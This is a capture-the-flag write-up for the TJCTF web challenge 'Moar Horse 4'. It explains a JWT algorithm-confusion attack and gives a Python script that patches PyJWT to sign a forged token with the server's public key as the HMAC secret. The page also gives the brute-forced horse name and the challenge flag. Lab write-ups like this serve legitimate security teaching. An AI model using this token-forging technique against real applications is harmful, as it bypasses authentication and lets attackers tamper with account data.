 # Moar-Horse-4
Web, 80

>  Written by nthistle
>  It seems like the TJCTF organizers are secretly running an underground virtual horse racing platform! They call it 'Moar Horse 4'... See if you can get a flag from it!
>  Source
  
Not a bad challenge, but Cookie Cutter ([ACTF 2019](https://files.actf.co/be68de25b4dcd9cecd2d16fc2eb974bf3892604d9ecdeb10b7c2c21346117a54/cookie_cutter.js)) was better.

This challenge is about JWTs. We need to forge a JWT token that allows us to have a winning horse. However, the JWT tokens are verified with the public key, which is provided in the source. There is a very suspicious line in the source that disables checking for public keys in HMAC secrets, confirming that this is the way to go. We create a JWT token which is signed using the HS256 algorithm, where the secret is the public key.

Now we need to create a winning horse. The horse racing code is below:
```python
boss_speed = int(hashlib.md5(("Horse_" + BOSS_HORSE).encode()).hexdigest(), 16)
your_speed = int(hashlib.md5(("Horse_" + race_horse).encode()).hexdigest(), 16)
if your_speed > boss_speed:
    return render_template("race_results.html", money=data["money"], victory=True, flag=flag)
```
With a bit of bruteforcing, we can construct a winning horse named `b1c_3133707226937`. The speed of this horse is `0xffffffcfb525620abb304a58d7ac5410`. Quite fast indeed. We create our cookie using the script below.
```python
import jwt
jwt.algorithms.HMACAlgorithm.prepare_key = lambda self, key : jwt.utils.force_bytes(key)
with open("pubkey.pem") as f:
  p = f.read()
data = {
  "user":True,
  "is_omkar":True,
  "money":999999,
  "horses":['b1c_3133707226937'],
}
print(jwt.encode(data, p, "HS256"))
```
After racing our horse against the boss, we get the flag: `tjctf{w0www_y0ur_h0rs3_is_f444ST!}`